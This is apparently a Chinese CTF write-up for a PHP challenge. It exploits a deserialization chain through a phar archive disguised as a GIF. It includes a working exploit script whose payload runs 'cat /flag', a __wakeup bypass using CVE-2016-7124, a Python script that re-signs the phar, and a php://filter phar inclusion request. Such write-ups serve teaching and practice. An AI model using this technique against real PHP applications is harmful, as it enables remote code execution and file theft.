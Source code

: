 # file_phar_include



下载附件，审计源代码，class.php有一条反序列化链，就两个类，调用链也比较简单：

```plain
file#__destrcut()
  file#__call()
    data#__set()
      data#yyyou()
```

![img](https://cdn.nlark.com/yuque/0/2023/png/28160573/1686578937962-a2d4b7f0-95ce-482c-a3d2-5d4adafaadd7.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_54%2Ctext_4oCc5aSn5aS0U0VD4oCd5YWs5LyX5Y-3%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10)

有以下几个注意点：

- 题目需要绕过__wakeup，用CVE-2016-7124修改属性数量绕过即可
- file->data传参用data伪协议传即可

再看file.php：

- 题目只允许上传jpg、gif、png后缀

![img](https://cdn.nlark.com/yuque/0/2023/png/28160573/1686579135691-d9a531be-ad72-40f9-a91d-d97af87a2b28.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_38%2Ctext_4oCc5aSn5aS0U0VD4oCd5YWs5LyX5Y-3%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10)

最后看index.php：

- 正则匹配没有过滤php://filter，因此可以用php://filter打phar反序列化
- 题目用了mime_content_type函数，该函数参数完全可控，可以触发phar反序列化

![img](https://cdn.nlark.com/yuque/0/2023/png/28160573/1686579170545-6a73765a-7707-47bb-b6ea-39a8c3357c35.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_62%2Ctext_4oCc5aSn5aS0U0VD4oCd5YWs5LyX5Y-3%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10)

攻击思路很明确了，就是传个jpg结尾的phar文件，然后打phar反序列化即可：

```
<?php
class file
{
    public $name;
    public $data;
    public $ou;
}

class data
{
    public $a;
    public $oi;
}

$a=new file();
$b=new file();
$c=new data();
$a->data="data://text/plain,HelloCCCXHT";
$a->name=$b;
$b->ou=$c;
$c->oi="cat /flag > /var/www/html/upload/flag.txt";

$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->setStub("GIF89a" . " __HALT_COMPILER(); ?>");
$phar->setMetadata($a); // 设置序列化数据
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
rename("test.phar", "test.gif");
```



运行后，会在本地生成test.gif文件，但是我们要绕过__wakeup，因此我们还需要修改test.gif的数据，用010打开test.gif：

- 原本是序列化对象属性个数是3，这里改成4

![img](https://cdn.nlark.com/yuque/0/2023/png/28160573/1686579418768-31353718-e584-418e-8f90-c35a7fafbe3b.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_36%2Ctext_4oCc5aSn5aS0U0VD4oCd5YWs5LyX5Y-3%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10)

由于我们修改了phar中的metadata数据，因此签名也需要重新计算：

```python
from hashlib import sha1
f = open('./test.gif', 'rb').read() # 修改内容后的phar文件
s = f[:-28] # 获取要签名的数据
print(s)
h = f[-8:] # 获取签名类型以及GBMB标识
print(h)
newf = s+sha1(s).digest()+h # 数据 + 签名 + 类型 + GBMB
open('test2.gif', 'wb').write(newf) # 写入新文件
```

用上方脚本计算完成后，在当前目录会生成datou.gif文件：

上传datou.gif文件

![img](https://cdn.nlark.com/yuque/0/2023/png/28160573/1686579589530-3cc00edd-6075-424e-bb1b-922a8ba550f1.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_34%2Ctext_4oCc5aSn5aS0U0VD4oCd5YWs5LyX5Y-3%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10)

再phar包含一下：

```plain
filepath=php://filter/resource=phar:///var/www/html/upload/6a1b42d02ffab12f27cfb88bf422aba9.jpg
```

![img](https://cdn.nlark.com/yuque/0/2023/png/28160573/1686579651788-5cb1fb45-c38e-4646-9efc-a303b5900034.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_43%2Ctext_4oCc5aSn5aS0U0VD4oCd5YWs5LyX5Y-3%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10)

flag就保存在/upload/flag.txt中了：

![image-20250818202503675](https://cdn.jsdelivr.net/gh/SuperHUANGLEI/image/image-20250818202503675.png)

flag

```

```

